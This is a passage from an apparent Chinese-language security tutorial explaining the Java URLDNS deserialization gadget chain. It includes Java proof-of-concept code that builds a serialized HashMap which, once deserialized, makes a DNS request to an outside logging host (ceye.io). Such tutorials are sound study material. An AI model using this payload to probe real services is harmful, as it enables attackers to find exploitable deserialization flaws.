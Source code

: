 可以发现对内容进行了`getHostAddress`方法处理，继续跟进

[![](assets/1705890694-0c468692c4d22abba2a154df8bb6604c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120103343-54455c26-b73c-1.png)

根据主机名获取其 IP 地址，也就是对其发送了一次 DNS 请求。

至此，可以看出总体链如下

```plain
1、HashMap->readObject()
2、HashMap->hash()
3、URL->hashCode()
4、URLStreamHandler->hashCode()
5、URLStreamHandler->getHostAddress()
```

接下来构造 Poc 进行 DNS 请求尝试。

```plain
HashMap<URL,Integer> hashmap= new HashMap<URL,Integer>();   
hashmap.put(new URL("http://s3moz8.ceye.io"),1);

serialize(hashmap);
```

此时运行会发现，我们还没进行反序列化，在此时就直接收到 DNS 请求了，这是为啥呢，仔细看一下代码，会发现

```plain
PUT->hash->hashCode()
```

而 URL 类中的`hashCode`默认值为 -1，此时到这里就会直接往下运行，也就是对 URL 发起了 DNS 请求。

这样的话我们就无法判断是反序列化出来的 URLDNS，还是序列化中的 URLDNS，造成了干扰，此时我们该怎么办呢，我们可以看到这里的源头是因为**put()**，所以我们可以先不发送请求

```plain
#Serialization.java
package org.example;

import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class Serialization {
    public static void Serialize(Object obj) throws IOException{
        ObjectOutputStream oos= new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static void main(String[] args) throws Exception{
        HashMap<URL,Integer> hashmap= new HashMap<URL,Integer>();
        URL url = new URL("http://s3moz8.ceye.io");
        Class c = url.getClass();
        Field hashcodefile = c.getDeclaredField("hashCode");
        hashcodefile.setAccessible(true);
        hashcodefile.set(url,1234);
        hashmap.put(url,1);
// 这里把 hashCode 改为 -1；通过反射的技术改变已有对象的属性
        hashcodefile.set(url,-1);
        Serialize(hashmap);
    }
}
```